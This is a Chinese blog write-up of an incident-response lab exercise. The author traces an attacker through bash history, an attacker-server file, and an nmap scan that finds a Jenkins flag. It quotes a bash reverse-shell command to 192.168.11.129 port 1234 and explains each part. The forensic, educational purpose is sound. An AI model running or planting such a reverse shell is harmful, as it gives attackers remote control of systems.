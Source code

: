 ```yaml
---
{"dg-publish":true,"permalink":"/应急响应靶场/应急响应靶场-Easy溯源（知攻善防实验室）/","title":"应急响应靶场-Easy溯源（知攻善防实验室）","tags":["靶场","应急响应"]}
---
```


在公众号知攻善防实验室里面下载了一些靶机。没有看题目要求就直接做让我吃尽苦头。一开始不知道登录密码 我就在想会不会这个也要我想办法去破解 于是前面一大半时间就在kali里面扫描和找漏洞 但歪打正着做出来第三四题。最后两题的话 

![title](/img/user/images/应急响应靶场-Easy溯源（知攻善防实验室）/title.png)

从第一道开始看吧 
## 第一道
第一道是问攻击者的内网跳板机ip 一开始是我是翻日志文件啥的查看蛛丝马迹。但我是没看出啥 看一下history 果真有一条命令在那里 是个base64的编码

![history](/img/user/images/应急响应靶场-Easy溯源（知攻善防实验室）/history.png)

解密之后发现是反向shell命令 通过网络与目标主机建立一个远程的命令行连接

![mingl](/img/user/images/应急响应靶场-Easy溯源（知攻善防实验室）/base.png)

```
bash -i是为了创建一个交互式的终端

>&：将标准输出和标准错误输出都重定向到一个指定的文件或设备。

/dev/tcp/192.168.11.129/1234:特殊路径 允许通过指定的 IP 地址（192.168.11.129）和端口（1234）建立 TCP 连接。

0>&1：这个部分将标准输入（stdin，0）重定向到标准输出（stdout，1）。意思是通过网络连接传入的输入会直接传递给 bash shell 执行。
```

那盲猜这个就是跳板机的ip了

## 第二问
问攻击者服务器的ip 
进入root用户的根目录能查看到一个很可疑的文件 进去就能查看到攻击者服务器的ip 

![server](/img/user/images/应急响应靶场-Easy溯源（知攻善防实验室）/server.png)

## 第三问&第四问
这个是最开始做的 当时是在kali的nmap中扫出来的 扫描到8080端口有问题 进去看发现有个flag

![nmap](/img/user/images/应急响应靶场-Easy溯源（知攻善防实验室）/nmap.png)

![jenkin](/img/user/images/应急响应靶场-Easy溯源（知攻善防实验室）/jenkins.png)

## 第五问&第六问
我用桌面上的password文件里面的网站 登录进去确实发现了邮箱和名字 但好像是个编码 输进去是错的